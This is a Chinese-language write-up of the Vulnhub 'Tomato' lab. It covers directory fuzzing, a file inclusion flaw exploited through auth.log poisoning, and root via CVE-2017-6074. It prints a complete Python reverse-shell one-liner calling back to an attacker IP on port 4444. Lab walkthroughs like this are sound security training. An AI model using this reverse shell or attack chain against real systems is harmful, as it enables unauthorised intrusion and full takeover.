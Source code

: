 ```yaml
---
title: Tomato
date: 2021-12-24 20:35:20
tags: Vulnhub
categories: 文件包含漏洞
---
```


## 信息收集
运行我们的bash脚本，发现目标系统开放了ftp和web服务
![在这里插入图片描述](https://img-blog.csdnimg.cn/b2f1b07f20b74e8cbbf09d8aceb93286.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们尝试是否可以匿名登录ftp，未果
![在这里插入图片描述](https://img-blog.csdnimg.cn/074a7cd93bf64ed3aa33a1e7ba57281e.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)

<!--more-->

我们访问web服务，发现是一个番茄图片，查看源码也没什么发现
![在这里插入图片描述](https://img-blog.csdnimg.cn/6fbb54145b634516a076f26d15d098ad.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们fuzz一下路径，发现了存在一个antibot_image路径

```bash
dirsearch -u "http://192.168.101.197/" -e * -x404,500,403 -w /usr/share/seclists/Discovery/Web-Content/common.txt
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/fa0487042a3d48909ab79d96a12532a8.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)

<!--more-->

我们发现存在一个info.php文件
![在这里插入图片描述](https://img-blog.csdnimg.cn/a59aa7bf23b2400cb4fd41b01cea33d7.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
文件的源码提示我们存在文件包含漏洞
![在这里插入图片描述](https://img-blog.csdnimg.cn/39d170ef77ee482988bbfd4d37ecc20b.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们验证漏洞确实是真实存在的
![在这里插入图片描述](https://img-blog.csdnimg.cn/b6bee6c21fc2499999963c8682e6f3cf.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)

## 漏洞利用
我们尝试将一句话写进日志文件中，日志文件的路径为`/var/log/auth.log`，发现已被写入日志并成功执行我们的命令
![在这里插入图片描述](https://img-blog.csdnimg.cn/8fc98d199a4845c1a5e8d72245c7b934.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
![在这里插入图片描述](https://img-blog.csdnimg.cn/bf1f3a8f67a6457998b22f5bd225ccc2.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
那么我们就可以查找python是否存在，若存在则可以反弹shell到我们本地的机子上。可以看到python是存在的，并且版本为3.5
![在这里插入图片描述](https://img-blog.csdnimg.cn/4d606cef990543d381d880d6a94f170c.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们将执行如下的payload添加到cmd参数后获得一个shell

```python
python3 -c 'import os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.101.196",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"])'
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/8ac1207e853b4bfa8655671b22b4939d.png)
## 提权
我们将linpeas.sh脚本上传到靶机上，并执行它
![在这里插入图片描述](https://img-blog.csdnimg.cn/23a8477f887a40c3b6df7f1df69d406b.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
发现存在一个linux内核漏洞
![在这里插入图片描述](https://img-blog.csdnimg.cn/e962cb6858c242bea4f04c0d8d28b3b1.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们发现这个内核漏洞对应的漏洞编号为`CVE-2017-6074`，我们将其编译变上传到靶机上，执行即root
![在这里插入图片描述](https://img-blog.csdnimg.cn/8d5db74c976140df8fd5b0d408768a02.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
![在这里插入图片描述](https://img-blog.csdnimg.cn/335e4f13aa7e4d8c9ebaf95cb4c8749c.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)

